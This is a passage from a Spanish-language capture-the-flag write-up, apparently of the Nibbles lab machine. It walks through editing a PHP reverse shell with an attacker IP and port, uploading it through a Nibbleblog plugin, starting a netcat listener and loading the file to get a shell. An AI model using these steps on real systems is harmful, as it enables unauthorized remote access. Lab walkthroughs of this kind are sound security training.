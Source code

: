 </p>

## INTRUSION REVERSE SHELL PHP

Otra manera de realizar una intrusión es directamente con una reverse shell en `php`, para esto vamos a localizar y copiar una reverse shell en los recursos de nuestra máquina.

```bash
locate php-reverse-shell
cp /usr/share/webshells/php/php-reverse-shell.php .
```

Procedemos a modificar la reverse shell con nuestra `IP` y `puerto` que vamos a utilizar para generar la conexión con nuestra máquina.

```bash
vim php-reverse-shell.php
#MODIFICAR LINEAS 49 Y 50
$ip = '10.10.14.6';  // CHANGE THIS         
$port = 4564;       // CHANGE THIS
```

Subimos el archivo en el plugin `My image`.

Procedemos a activar un listener.
  
```bash
nc -lnvp 4564
```

Consultamos el recurso en la siguiente URL.

```bash
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

<p align="center">
<img src="/assets/images/nibbles/11-page9.png"> 
</p>

## ESCALADA DE PRIVILEGIOS

Una vez que tenemos acceso a la máquina, realizamos el escalamiento de privilegios, en este caso, revisando los permisos a nivel de `sudo`.
